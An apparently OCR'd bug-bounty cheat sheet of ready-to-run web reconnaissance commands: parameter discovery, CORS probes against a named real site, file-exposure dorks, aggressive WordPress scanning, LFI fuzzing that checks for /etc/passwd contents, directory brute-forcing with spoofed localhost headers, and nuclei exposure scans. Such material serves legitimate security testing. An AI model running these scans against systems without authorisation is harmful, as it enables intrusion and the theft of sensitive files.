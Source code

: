 #### 10–11) Hidden parameter discovery (Arjun)
```bash
arjun -u https://site.com/endpoint.php -oT arjun_output.txt -t 10 --rate-limit 10 --passive -m GET,POST --headers 'User-Agent: Mozilla/5.0'
arjun -u https://site.com/endpoint.php -oT arjun_output.txt -m GET,POST -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 10 --rate-limit 10 --headers 'User-Agent: Mozilla/5.0'
```

#### 12–13) CORS checks
```bash
curl -H 'Origin: http://example.com' -I https://etoropartners.com/wp-json/
curl -H 'Origin: http://example.com' -I https://etoropartners.com/wp-json/ | grep -i -e 'access-control-allow-origin' -e 'access-control-allow-methods' -e 'access-control-allow-credentials'
```

#### 14) Info disclosure dorks
```bash
site:*.example.com (ext:doc OR ext:docx OR ext:odt OR ext:pdf OR ext:rtf OR ext:ppt OR ext:pptx OR ext:csv OR ext:xls OR ext:xlsx OR ext:txt OR ext:xml OR ext:json OR ext:zip OR ext:rar OR ext:md OR ext:log OR ext:bak OR ext:conf OR ext:sql)
```

#### 15) WordPress aggressive scan
```bash
wpscan --url https://site.com --disable-tls-checks --api-token <here> -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
```

#### 16 & 36) LFI methodologies
```bash
echo 'https://example.com/' | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace 'FUZZ' | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr 'root:(x|\*|\$[^\:]*):0:0:' -v
echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr 'root:(x|\*|\$[^\:]*):0:0:'
```

#### 17–18) Directory brute force
```bash
dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1
ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'X-Forwarded-For: 127.0.0.1' -H 'X-Originating-IP: 127.0.0.1' -H 'X-Forwarded-Host: localhost' -t 100 -r -o results.json
```

#### 19–20) JS file exposures
```bash
echo example.com | katana -d 5 | grep -E '\.js$' | nuclei -t nuclei-templates/http/exposures/ -c 30
cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/
```
